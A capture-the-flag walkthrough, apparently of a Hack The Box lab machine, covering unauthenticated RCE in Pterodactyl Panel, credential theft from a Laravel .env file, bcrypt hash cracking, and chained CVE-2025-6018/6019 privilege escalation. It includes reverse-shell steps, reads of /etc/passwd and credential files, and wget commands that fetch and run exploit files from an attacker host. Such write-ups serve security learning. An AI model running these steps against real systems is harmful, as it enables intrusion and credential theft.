

## Reconnaissance

```bash
nmap -sCV -T4  <machine-ip>
```
Perform a basic nmap scan to find out the services.



Findings:
Port 22 --> SSH service.
Port 80 --> HTTP Service.

Add pterodactyl.htb to hosts.

```bash
sudo nano /etc/hosts
<machine-ip> pterodactyl.htb panel.pterodactyl.htb
```



The webpage itself contains no functionality, but it discloses the Pterodactyl Panel version and database information, which significantly reduces the attack surface and enables targeted vulnerability research.



Since there is version informaton about pterodactyl panel, time for more enumeration.
While enumerating virtual hosts I found 'panel'. Now add it to the /etc/host file.

```bash
ffuf -u http://pterodactyl.htb -H "HOST: FUZZ.pterodactyl.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc 200
```


Now we are on a login page.
### CVE-2025-49132

Since we found the panel version. I've searched for version related CVE and I found there are LFI and RCE for this specific version.It allows unauthenticated arbitrary remote code execution.

```bash
The vulnerability abuses the /locales/locale.json endpoint. By controlling the locale and namespace parameters, an attacker can include arbitrary files, which leads to PHP object deserialization via PEAR, ultimately resulting in unauthenticated RCE.
```
After some searching for PoC for the CVE-2025-49132.
I found a github repo, which I found useful --> https://github.com/YoyoChaud/CVE-2025-49132

We will get a reverse shell, stabilize it.



We can get our user flag with this reverse shell

```bash
# stabilize the shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Enumerate users
cat /etc/passwd

# From /etc/passwd, only users with /bin/bash are interactive. Among them, only phileasfogg3 has an accessible home directory, making it the most viable user.
cat /home/phileasfogg3/user.txt
```



### Database Enumeration

In Laravel applications, database credentials are typically stored in the .env file, making it a high‑value target during post‑exploitation of Laravel applications.

```bash
# Searching for the .env file
find / -type f -name "*.env" 2>/dev/null

# We will get the database details
cat /path/to/.env

```

Here we will get details about database like username,password,database-name.
Since, we know it is using mariadb database.

let's use mariadb instead of mysql

```bash
mariadb -h 127.0.0.1 -u <username> -p <database-name>
# This will prompt you to enter the password

# Enumerate tables in database
SHOW TABLES;

# Enumerate users table
DESCRIBE users;

# INFO
 SELECT email, username, password FROM users
```

Now we have two hashes, they are bcrypt hashes. Since these are bcrypt hashes, they need to be cracked, not decrypted.
I prefer using John The Ripper tool for this.

Save those hashes in a file.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


Although we already have a shell, switching to SSH provides a more stable session and is often required for privilege escalation techniques.
Now let's login as phileasfogg3 using the password.

```bash
ssh phileasfogg3@pterodactyl.htb
```

## Privilege Escalation

At this stage, we have user‑level access. The next step is identifying a local privilege escalation vector to obtain root access.

Initial manual enumeration did not reveal any obvious sudo permissions or writable SUID binaries, prompting a deeper automated analysis using linpeas.



While reviewing the linpeas.sh output, I noticed SUID‑related activity involving D‑Bus, mount, and udisks. Since disk management operations are highly privileged, this immediately suggested a possible authorization bypass.

udisks is a daemon that:
- Manages disks, partitions, and mount operations
- Runs as root
- Exposes functionality over D‑Bus

So the trust chain is 

```bash
User → D‑Bus → udisksd (root) → polkit (authorization)
```
This led me to CVE-2025-6019

This github repo is useful --> https://github.com/guinea-offensive-security/CVE-2025-6019

But here is the catch 

```bash
A Local Privilege Escalation (LPE) vulnerability was found in libblockdev. Generally, the "allow_active" setting in Polkit permits a physically present user to take certain actions based on the session type
Due to the way libblockdev interacts with the udisks daemon, an "allow_active" user on a system may be able escalate to full root privileges on the target host
```

CVE‑2025‑6019 requires the attacker to be classified as an allow_active (physically present) user. Since SSH users are not considered physically present by default, this condition was not satisfied. Therefore, an additional vulnerability was required to elevate the session to an allow_active context.

So, i checked the version of the OS (/etc/os-release) and check vulnerabilties which would allow me to do that.

```bash
cat /etc/os-release
```


It revealed some crucial information, version id - 15.6 and version name - openSUSE
So, I Googled for CVEs related to that version and found it CVE-2025-6018

```bash
# Summary
A Local Privilege Escalation (LPE) vulnerability in pam-config within Linux Pluggable Authentication Modules (PAM). The flaw allows an unprivileged local attacker to obtain elevated privileges normally reserved for a physically present "allow_active" user.

# Impact
An attacker with low-privilege local access (e.g., via SSH) could: - Bypass authentication controls - Perform Polkit actions typically restricted to console users - Gain unauthorized control over system configurations and services - Potentially compromise system integrity, confidentiality, and availability

```

I found this github repo useful --> https://github.com/ibrahmsql/CVE-2025-6018

Now clone these repos to our machine.

First let's escalate ourselves to physically present user

```bash
python3 CVE-2025-6018.py -i <target-ip> -u <username> -p <password>
```
This will open a reverse shell for us.
Now let's move on to the next part

### Hosting Exploit Files

```bash
# On attacker machine
python3 -m http.server 8000
```

Now move to the CVE-2025-6019, we have to create an image 

```bash
# clone the above mentioned repo and execute these commands

# This will create an image 
sudo bash exploit.sh

# We have to do this on our attacker machine and it will prompt to select to create an image locally or exploit the target, we have to create an image and later we have to download the image on to the victim(reverse shell)


# on reverse shell(Victim)
wget http://<your-ip>:8000/<image-name>

# Now do the same for exploit.sh, still we need it to exploit the target but before that remove the dependencies function in the script(check the bottom of the script there will be a call for this function,make sure to delete it too)(Victim)
wget http://<YOUR-IP>:PORT/exploit.sh

# Make it executable
chmod +x exploit.sh

# Now execute the file and when prompted select exploit the target option 
bash exploit.sh
```





We have got our flag

